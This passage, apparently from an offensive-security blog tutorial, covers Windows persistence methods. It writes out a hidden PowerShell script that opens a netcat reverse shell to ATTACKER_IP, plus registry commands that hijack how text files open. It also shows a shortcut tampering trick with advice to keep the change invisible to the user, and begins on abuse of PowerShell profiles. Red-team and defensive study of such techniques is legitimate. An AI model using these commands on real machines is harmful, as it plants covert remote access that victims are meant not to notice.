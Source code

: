 - backdoor.ps1) script that will run our reverse shell payload and also open the desired file . The malicious powershell script would look it this :

Start-Process -NoNewWindow “c:\tools\nc64.exe” “-e cmd.exe ATTACKER_IP 4448”  
C:\Windows\system32\NOTEPAD.EXE $args[0]

**Notice how in Powershell, we have to pass** **$args[0]** **to notepad, as it will contain the name of the file to be opened, as given through** **%1** **inside the registry value above.**

reg add HKLM\Software\Classes\textfile\shell\open\command /v (Default) /t REG_SZ /d “powershell -windowstylehidden C:\windows\backdoor.ps1 $1” /f

New-ItemPropertyValue -Path HKLM:\Software\Classes\textfile\shell\open -Name (Default) -Value “powershell -windowstylehidden C:\windows\backdoor.ps1 $1” -Type REG_SZ

![](https://hadess.io/wp-content/uploads/2023/11/image-28-1024x339.png)

# Persistence Using ShortCut Modification

If we want the Persistence in kind of unique way to visually tempering with windows shortcut , then this would be the best way. Here we tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a malicious script that will run a backdoor payload and then execute the usual program normally. lets take example of calc.exe shortcut for POC. If we right-click it and go to properties, we’ll see where it is pointing:

![](https://hadess.io/wp-content/uploads/2023/11/image-29-754x1024.png)

Now what if we change it to something else ? yes we can change it run our malicious payload and also opne a calculator

### How Does it work ?

Start-Process -NoNewWindow “c:\Windows\reversehll.exe”  
  
C:\Windows\System32\calc.exe

**Notice that the shortcut’s icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user.**

![](https://hadess.io/wp-content/uploads/2023/11/image-30-791x1024.png)

# Persistence using Powershell Profile

A PowerShell profile (profile.ps1) is a script that runs when powershell starts and can be used as a logon script to customize user environments . Powershell supports several profiles depending on the user or host program. An administrator can also configure a profile that applies to all users and host programs on the local computer. for We can leverage this powershell profie for maintaining persistence access to the machine.

There are usually four places you can abuse the powershell profile, depending on the privileges we have as an attacker :

$PROFILE | select *
